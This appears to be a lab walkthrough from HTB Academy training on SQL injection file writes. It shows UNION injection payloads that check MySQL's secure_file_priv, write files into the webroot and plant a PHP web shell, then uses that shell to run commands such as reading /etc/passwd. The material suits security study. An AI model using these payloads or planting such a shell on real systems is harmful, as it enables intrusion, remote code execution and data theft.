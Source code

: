 **What is secure_file_priv?**
- MySQL security variable that restricts file operations
- Controls WHERE files can be read/written
- Critical for determining write capabilities

**Check secure_file_priv Value:**
```sql
-- Check file operation restrictions
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -

-- Result interpretation:
-- (empty/blank) = No restrictions → Can write anywhere ✅
-- /var/lib/mysql-files/ = Restricted to specific directory ⚠️
-- NULL = File operations disabled ❌
```

**Expected HTB Academy Result:**
```
SECURE_FILE_PRIV | (empty) | 4
→ Analysis: Empty value = No restrictions ✅ Can write anywhere!
```

#### Step 2: Test Write Permissions

**Verify write access with test file:**
```sql
-- Test write to webroot
cn' UNION SELECT 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

-- Verification: Browse to http://target/proof.txt
-- Expected output: "1 file written successfully! 3 4"
```

**Result Analysis:**
- **No SQL errors** = Write operation succeeded ✅
- **File accessible via web** = Web path correct ✅  
- **Shows "1...3 4"** = UNION columns included in output

#### Step 3: Deploy Web Shell

**Clean Output Technique:**
```sql
-- Use empty strings instead of numbers for clean output
cn' UNION SELECT "","<?php system($_REQUEST[0]); ?>","","" into outfile '/var/www/html/shell.php'-- -

-- Why empty strings?
-- Before: "1 <?php system($_REQUEST[0]); ?> 3 4" (broken PHP)
-- After:  "<?php system($_REQUEST[0]); ?>" (clean PHP) ✅
```

#### Step 4: Execute Commands

**Web Shell Usage:**
```bash
# Basic command execution
http://target/shell.php?0=id
# Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)

# File system exploration  
http://target/shell.php?0=ls -la /
http://target/shell.php?0=cat /etc/passwd

# Find flags
http://target/shell.php?0=find / -name "*.txt" -type f 2>/dev/null | grep -i flag
http://target/shell.php?0=cat /var/www/html/flag.txt
```
